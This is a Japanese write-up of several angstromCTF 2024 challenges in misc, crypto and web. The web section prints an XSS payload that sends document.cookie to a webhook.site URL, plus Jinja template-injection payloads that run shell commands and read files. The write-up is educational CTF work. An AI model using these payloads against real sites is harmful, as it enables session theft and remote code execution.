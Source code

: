 # [angstromCTF 2024](https://2024.angstromctf.com/challenges)に参加しました

数ヶ月ぶりにちゃんとCTFをやろうと思っていたところちょうど評判のよい(?)CTFがあったので参加しました.   
楽しいCTFを開催してくれた運営人の皆様, ありがとうございました.  
Web問題に関してはたまたま一緒に作業していたwebフロントを書く後輩に投げて, ほとんど解いてもらいました. ありがとう.  
510pt, 226/831（母数は正の得点を獲得しているチーム数）.

## trip(Misc 485solves)

### Description
> What road was this this [photo](https://files.actf.co/fdea3784a76afd8110498bd596653c433e3f5206bc0fa87f28a5edbd0a622ceb/trip.jpeg) taken on?  
> For example, if the road was "Colesville Road" the flag would be actf{colesville}.

### Consideration
綺麗な風景写真が渡されるので, 写真を撮った場所を答える.  
google lensじゃ絶対引っかからないような写真なので, 画像検索は望み薄.  
次にangstromチームのSNSを覗きに行ったけど該当するものなし.  
そういえばと思って, exiftoolにかけてみたらGPS Positionという欄があって, 緯度と経度があったので無事に場所の特定ができた.
```
GPS Position                    : 37 deg 56' 23.60" N, 75 deg 26' 17.11" W
```
あとはgoogle mapで検索して出てきた道の名前を答える.

## aw man(Misc 290solves)

### Description
> [Man](https://files.actf.co/5b9ef628dbf56fedc1ad1861b0ccb96569cd6a97fe49d50cb8f099155adf66b3/mann.jpg)? Is that you?

### Consideration
exiftoolで何も出なかったので, [aperi solve](https://www.aperisolve.com/)に投げてみた.  
enc.txtていうテキストファイルが抽出できたので中身を見てみる.
```
5RRjnsi3Hb3yT3jWgFRcPWUg5gYXe81WPeX3vmX
```
ここから地獄で何でdecode（decrypt）すれば良いか検討がつかず時間を溶かす.  
結果的にbaseをロールしていって, base58でdecodeできた.

## do you wanna a build snowman(Misc 317solves)

### Description
> Anna: Do you wanna build a snowman? Elsa: Sure if you can open my snowman [picture](https://files.actf.co/67ad046a16c81593ac82fdc7975dd8713a9c364774b69e2a8a3632e639c7fc66/snowman.jpg)

### Consideration
jpeg形式の画像ファイルが渡されるけど, 開けない.  
headerとかが正しくないんだろうなという推測でbinaryをいじってみることに.  
ファイルの最初にあるべきスタートマーカと呼ばれるSOIがあるらしく, そこが正しくなかったので修正したら開けた. （`fdd8`->`ffd8`）

## PHIlosophy(Crypto 339solves)

### Description
> Clam decided to start studying philosophy, and what is the difference between plus one and minus one anyway...

### Consideration
ほとんどがRSA暗号と同じになっているが, phiの値だけ$ phi = (p-1)(q-1) $でなく$ phi = (p+1)(q+1) $となっている. これでは秘密鍵が正しく生成されずに復号が正しく行われない.  
ここで,  
$
phi = (p+1)(q+1)
    = pq + p + q + 1
    = n + p + q + 1
$  
phiとnは既知なのでp+qが求まる.  
正しいphi'は  
$
phi' = (p-1)(q-1)
    = pq - (p+q) +1
$  
で求まるので正しく秘密鍵が生成できて, 復号が完了する.

## layers(Crypto 240solves)

### Description
> nc challs.actf.co 31398

### Consideration
やっていることとしては  
$ enc = flag \oplus key_1 \oplus key_2 \oplus ... \oplus key_{1000} $  
で, 1000個の鍵は毎回同じ鍵になる.  
よって  
$
flag = enc \oplus key_1 \oplus key_2 \oplus ... \oplus key_{1000}\\
\ \ \ \ \ \ \ \ \ = flag \oplus key_1 \oplus key_1 \oplus key_2 \oplus key_2 \oplus ... \oplus key_{1000} \oplus key_{1000}\\
\ \ \ \ \ \ \ \ \ = flag
$  
encは16進数になるので2番で投げて, 返ってくるflagも16進数なので`bytes.fromhex(flag)`とかで直す.

## markdown(Web 282solves)

### Description
> My friend made an app for sharing their notes!  
> App: [https://markdown.web.actf.co/](https://markdown.web.actf.co/)  
> Send them a link: [https://admin-bot.actf.co/markdown](https://admin-bot.actf.co/markdown)  
> [index.js](https://files.actf.co/c9c1df7ad9c6c62b99454fbde63f1cce5bd69c1dadd87314de9053f4e601c16b/index.js)

### Consideration
リンクを共有する方のアプリケーションは送ったリンクを見に行くらしい ＆ markdownを生成する方のアプリケーションは サニタイズしない  
というとこまで後輩が進めてくれたのでそこからスタート.  
①tokenをリークさせて, ②レスポンスを自分が見れるサーバーに送るということをしないといけない.  
②に関しては前に[webhook](https://webhook.site/)というものを使っていた人がいたのを思い出してクリア.  
①は後輩がプロですぐに以下を考えてくれた.  
```
<img src="x" onerror="fetch('https://webhook.site/595b3f51-eaea-4381-988d-da5cb183770a', {method:'POST', body:document.cookie})" />
```
ほとんど後輩が解いてくれた. 感謝.

## winds(Web 259solves)

### Description
> Challenge: [https://winds.web.actf.co/](https://winds.web.actf.co/)

### Consideration
SSTIができるというところまで後輩が進めてくれたのでそこからスタート.  
config見ても, 環境変数見てもflagないし, flagに繋がる情報は見つからず.  
以下で, lsコマンドを実行する.  
```
{{ request.application.__globals__.__builtins__.__import__('os').popen('ls -lah').read() }}
```
flag.txtがあったので以下で中身を見る.  
```
{{ request.form.get.__globals__['__builtins__']['open']('./flag.txt').read() }}
```  
リクエストで送るtextは並べ替えられてしまうけど, seed値が0なのでローカルで上のリクエストになるような文字列を生成できる.  
